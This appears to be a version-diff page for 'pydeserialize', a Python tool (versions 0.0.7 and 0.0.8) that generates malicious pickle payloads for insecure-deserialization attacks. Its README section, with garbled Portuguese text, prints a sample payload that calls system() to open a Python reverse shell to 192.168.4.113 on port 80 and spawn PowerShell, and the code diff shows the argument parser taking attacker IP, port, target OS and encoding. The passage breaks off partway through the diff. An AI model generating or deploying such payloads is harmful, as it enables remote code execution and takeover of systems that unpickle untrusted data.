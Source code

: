 ```diff
+.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.8
 - @joaoviictorti options: -h, --help show this help message and exit -ip IP
 Insert ip -p PORT Insert port -e {b64,shell,urlencode,hex} Insert encoding -o
 {Windows,Linux} Insert operational system ``` # InstalaÃ§Ã£o pydeserialize
 requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install pydeserialize
 ``` # Executando pydeserialize ```console pydeserialize -ip 192.168.4.113 -p 80
 -o Windows -e shell _ _ _ _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . |
 | | . | -_|_ -| -_| _| | .'| | |- _| -_| | _|_ |___|___|___|___|_|
-|_|__,|_|_|___|___| |_| |___| v0.0.7 - @joaoviictorti
+|_|__,|_|_|___|___| |_| |___| v0.0.8 - @joaoviictorti
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python
 -c \'import socket,subprocess,os;s=socket.socket
 (socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2
 (s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;
 pty.spawn("powershell")\'\x94\x85\x94R\x94.' ``` [https://capsule-
 render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer]
```

### Comparing `pydeserialize-0.0.7/pydeserialize/pydeserialize.py` & `pydeserialize-0.0.8/pydeserialize/pydeserialize.py`

 * *Files 8% similar despite different names*

```diff
@@ -1,25 +1,25 @@
-import argparse
-from .run import ObjetoMalicioso
-from argparse import RawTextHelpFormatter
-
-def banner():
-    return """                                                                                                                                            
-           _                 _     _ _         
- ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
-| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
-|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
-|_| |___|  
-     v0.0.7 - @joaoviictorti                                                
-"""
-
-def argumentos() -> None:
-    
-    parse = argparse.ArgumentParser(prog=banner(),usage="pydeserialize -ip 192.168.4.113 -p 80 -o Windows",formatter_class=RawTextHelpFormatter)
-    parse.add_argument("--version",action="version",version="pydeserialize 0.0.7")
-    parse.add_argument("-ip",action="store",type=str,dest="ip",required=True, help="Insert ip")
-    parse.add_argument("-p",action="store",type=str,dest="port",required=True, help="Insert port")
-    parse.add_argument("-e",action="store",type=str,dest="encode",choices=["b64","shell","urlencode","hex"],default="",required=True,help="Insert encoding")
-    parse.add_argument("-o",action="store",type=str,dest="SO",choices=["Windows","Linux"],required=True,help="Insert operational system")
-    args = parse.parse_args()
-    
+import argparse
+from .run import ObjetoMalicioso
+from argparse import RawTextHelpFormatter
+
+def banner():
+    return """                                                                                                                                                                                                                    
+           _                 _     _ _         
```